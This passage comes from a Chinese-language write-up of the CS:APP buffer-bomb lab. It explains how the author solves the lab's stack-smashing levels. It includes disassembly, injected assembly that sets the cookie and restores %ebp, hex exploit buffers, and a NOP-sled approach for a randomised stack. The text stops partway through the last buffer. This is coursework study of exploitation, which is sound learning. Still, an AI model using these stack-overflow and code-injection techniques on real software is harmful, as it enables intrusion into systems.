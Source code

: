 ```c++
 8048dbe:       89 c3                   mov    %eax,%ebx
 8048dc0:       e8 cb ff ff ff          call   8048d90 <uniqueval>
```
函数的返回值实际存放在`%eax`寄存器中，我们只需要修改`%eax`寄存器的值为`cookie`即可。本题还有比较关键的一点，我们在进行写缓冲区时把`test`函数的`%ebp`寄存器破坏掉了，我们返回前还需要恢复`%ebp`寄存器即可，我们通过`gdb`调试可以知道`%ebp`寄存器的地址为`0X55683010`。恢复的地址和修改寄存器的代码如下：
```c++
void test(){
    __asm__("mov $0x6830c384, %eax"); // eax = cookie
    __asm__("mov $0X55683010, %ebp"); // resume ebp register
    __asm__("push $0x08048dbe"); // set return address
    __asm__("ret");
}
```
我们通过上述编译后，将代码写入到栈上即可，并同时将`getbuf`函数的返回地址设置为上述指令的起始地址即可。最终的`buffer`为：
```c++
b8 84 c3 30 68 68 de 8d 04 08 c3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 b8 2f 68 55
```

### 5. Level 4: Nitroglycerin
+ 本题与第`4`题相似，但是比较复杂的处理在于栈的地址为动态变换的，此时我们就不可能像之前处理那样，栈的返回地址直接写为固定，此时我们需要用到`nop sleds`。这个所谓的难点也并不复杂，表示我们可以将机器指令全部设置为`nop`,在`nop`之后紧挨着执行我们的修改指令，因此我们只需要保证跳转指令一定能够跳转到`nop`指令段中即可，题目中所谓的随机栈地址的范围变化为`[-240,240]`之间进行变动，我们只需要设定某个值保证跳转一定能够跳转到`nop`指令即可。
+ 此处我们将`512`个字节的内容全部设置为`nop`,只要保证指令一定能够跳转`nop`区间即可，因为`nop`执行结束后紧挨着即为我们需要执行的指令。
+ 我们同时还需要恢复`ebp`寄存器，我们仔细观察`ebp`寄存器实际为`esp`地址偏移`0x28`即可。因为地址从高往低增长，所以`$ebp = $esp + 28`，我们可以通过汇编代码得知。
```c++
08048e26 <testn>:
 8048e26:       55                      push   %ebp
 8048e27:       89 e5                   mov    %esp,%ebp
 8048e29:       53                      push   %ebx
 8048e2a:       83 ec 24                sub    $0x24,%esp
 8048e2d:       e8 5e ff ff ff          call   8048d90 <uniqueval>
 8048e32:       89 45 f4                mov    %eax,-0xc(%ebp)
 8048e35:       e8 d2 03 00 00          call   804920c <getbufn>
```
```c++
void test(){
    __asm__("mov %esp,%eax"); // resume ebp register
    __asm__("add $0x28,%eax");
    __asm__("mov %eax,%ebp");
    __asm__("mov $0x6830c384, %eax"); // eax = cookie
    __asm__("push $0x8048e3a"); // set return address
    __asm__("ret");
}
```
我们通过上述编译后，将代码写入到栈上即可，并同时将`getbuf`函数的返回地址设置为`0x55682eb8`。最终的`buffer`为：
```c++
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 
```
